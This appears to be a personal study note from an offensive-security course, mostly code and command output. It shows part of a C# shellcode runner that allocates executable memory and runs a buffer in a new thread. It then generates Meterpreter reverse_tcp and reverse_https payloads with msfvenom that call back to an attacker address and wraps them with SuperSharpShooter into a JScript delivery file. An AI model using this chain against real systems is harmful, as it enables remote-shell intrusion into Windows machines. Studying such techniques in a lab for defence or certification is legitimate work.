```c#

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

- buf
```bash 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.110 LPORT=4444 EXITFUNC=thread -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
...

```


### SharpShooter

- python2 compliant one
- python3 fork https://github.com/SYANiDE-/SuperSharpShooter
	- needed to change requirements to `jsmin==3.0.0`
	- virtenv in ~/virtual-environments/supersharpshooter
- generate payload
```bash
 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 EXITFUNCTION=thread -f raw -o shell.txt
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 622 bytes
Saved as: shell.txt
```
- convert to js 
```bash
❯ sudo python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile ~/Documents/OSEP/Pen300/04ClientSideWithWindowsScriptHost/shell.txt --output  test

             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Shar'+'p'+'Sh'+'o'+'o'+'ter';
[*] Written delivery payload to output/test.js

```
